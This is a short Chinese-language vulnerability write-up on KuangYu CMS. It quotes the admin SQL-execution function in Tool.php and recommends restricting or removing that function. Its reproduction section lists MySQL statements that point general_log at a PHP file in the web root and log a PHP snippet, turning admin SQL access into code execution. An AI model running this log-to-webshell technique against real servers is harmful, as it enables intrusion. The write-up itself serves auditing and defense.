

# 狂雨CMS后台SQL代码执行

## 审计

`application/admin/controller/Tool.php->sqlexecute()`

```php
public function sqlexecute(){
        if($this->request->isPost()){
            $sql=$this->request->param('sql');
            if(!empty($sql)){
                $sql = str_replace('{pre}',Config::get('database.prefix'),$sql);
                //查询语句返回结果集
                if(strtolower(substr($sql,0,6))=="select"){

                }
                else{
                    $return = Db::execute($sql);
                }
            }
            return $this->success('执行完成');
        }else{
            $this->assign('meta_title','SQL语句执行');
            return $this->fetch();
        }
    }
```

Db是thinkphp内置类，可以看到前六个字符是`select`的话其实什么都没有执行。。。报错的话无法存入log中，所以用了`create`

### 防御方法

针对传入的语句进行限制，比如只能进行查询操作。建议最好还是直接取消这个功能，对SQL的操作直接在服务器上进行，放在后台实在是弊大于利

## 漏洞复现

后台存在SQL代码执行功能


但`secure_file_priv`设置为空，无法导出文件，可以利用`general_log`进行getshell

依次执行以下代码

```mysql
set global general_log=On;
set global general_log_file="D:\\phpstudy_pro\\WWW\\123.php";
create table tmp (value varchar(25));
insert into tmp (value) values ("<?php phpinfo(); ?>");
drop table tmp;
set global general_log=Off;
```


得到`general_log`，内容如图所示



访问即可看到`phpinfo`

## 参考

https://www.cnblogs.com/0daybug/p/12624364.html